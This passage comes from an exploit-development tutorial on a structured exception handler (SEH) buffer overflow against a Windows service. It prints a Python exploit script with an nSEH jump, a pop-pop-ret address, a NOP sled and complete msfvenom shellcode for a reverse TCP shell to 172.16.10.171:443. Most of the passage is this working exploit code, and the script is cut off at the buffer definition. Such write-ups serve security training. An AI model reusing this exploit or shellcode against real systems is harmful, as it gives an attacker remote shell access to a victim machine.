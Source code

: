 



### Final Exploit



Jumping to shell code and executing the final shellcode. All this is left to do now is place our shell code inside our `D` buffer alongside some `NOPS` for safety and execute a **6 Byte** jump from **nSEH** which will land in our NOP Sled and straight into shellcode.



We can do this with



```python
nseh = "\xeb\x06\x90\x90"
```



Our final exploit will now look something like this



```python
#!/usr/bin/python
import socket
import sys


nseh = "\xeb\x06\x90\x90"
seh = "\x99\xab\x01\x10" #0x1001ab99 pop pop ret

#msfvenom -p windows/shell/reverse_tcp LHOST=172.16.10.171 LPORT=443 EXITFUNC=thread -f c -a x86 --platform windows -b "\x00\x0d\x0a\x0c\x20\x25\x2b\x2f\x5c"

shellcodenops = "\x90\x90\x90\x90"


shellcode = (
"\xbd\xe0\x3c\x1c\xcb\xda\xc2\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x5b\x31\x6a\x14\x83\xea\xfc\x03\x6a\x10\x02\xc9\xe0\x23\x40"
"\x32\x19\xb4\x24\xba\xfc\x85\x64\xd8\x75\xb5\x54\xaa\xd8\x3a"
"\x1f\xfe\xc8\xc9\x6d\xd7\xff\x7a\xdb\x01\x31\x7a\x77\x71\x50"
"\xf8\x85\xa6\xb2\xc1\x46\xbb\xb3\x06\xba\x36\xe1\xdf\xb1\xe5"
"\x16\x6b\x8f\x35\x9c\x27\x1e\x3e\x41\xff\x21\x6f\xd4\x8b\x78"
"\xaf\xd6\x58\xf1\xe6\xc0\xbd\x3f\xb0\x7b\x75\xb4\x43\xaa\x47"
"\x35\xef\x93\x67\xc4\xf1\xd4\x40\x36\x84\x2c\xb3\xcb\x9f\xea"
"\xc9\x17\x15\xe9\x6a\xdc\x8d\xd5\x8b\x31\x4b\x9d\x80\xfe\x1f"
"\xf9\x84\x01\xf3\x71\xb0\x8a\xf2\x55\x30\xc8\xd0\x71\x18\x8b"
"\x79\x23\xc4\x7a\x85\x33\xa7\x23\x23\x3f\x4a\x30\x5e\x62\x03"
"\xf5\x53\x9d\xd3\x91\xe4\xee\xe1\x3e\x5f\x79\x4a\xb7\x79\x7e"
"\xdb\xdf\x79\x50\x63\x8f\x87\x51\x94\x86\x43\x05\xc4\xb0\x62"
"\x26\x8f\x40\x8a\xf3\x3a\x4a\x1c\x50\xaa\x40\x77\xc0\xc9\x54"
"\x86\xaa\x47\xb2\xd8\x9c\x07\x6a\x99\x4c\xe8\xda\x71\x87\xe7"
"\x05\x61\xa8\x2d\x2e\x08\x47\x98\x07\xa5\xfe\x81\xd3\x54\xfe"
"\x1f\x9e\x57\x74\xaa\x5f\x19\x7d\xdf\x73\x4e\x1a\x1f\x8b\x8f"
"\x8f\x1f\xe1\x8b\x19\x77\x9d\x91\x7c\xbf\x02\x69\xab\xc3\x44"
"\x95\x2a\xf2\x3f\xa0\xb8\xba\x57\xcd\x2c\x3b\xa7\x9b\x26\x3b"
"\xcf\x7b\x13\x68\xea\x83\x8e\x1c\xa7\x11\x31\x75\x14\xb1\x59"
"\x7b\x43\xf5\xc5\x84\xa6\x85\x02\x7a\x35\xa2\xaa\x13\xc5\xf2"
"\x4a\xe4\xaf\xf2\x1a\x8c\x24\xdc\x95\x7c\xc5\xf7\xfd\x14\x4c"
"\x96\x4c\x84\x51\xb3\x11\x18\x52\x30\x8a\xab\x29\x39\x2d\x4c"
"\xce\x53\x4a\x4c\xcf\x5b\x6c\x70\x06\x62\x1a\xb7\x9b\xd1\x05"
"\x2a\x31\x2c\xae\xf3\xd0\x8d\xb3\x03\x0f\xd1\xcd\x87\xa5\xaa"
"\x29\x97\xcc\xaf\x76\x1f\x3d\xc2\xe7\xca\x41\x71\x07\xdf")

buffer = "A" * 4061
```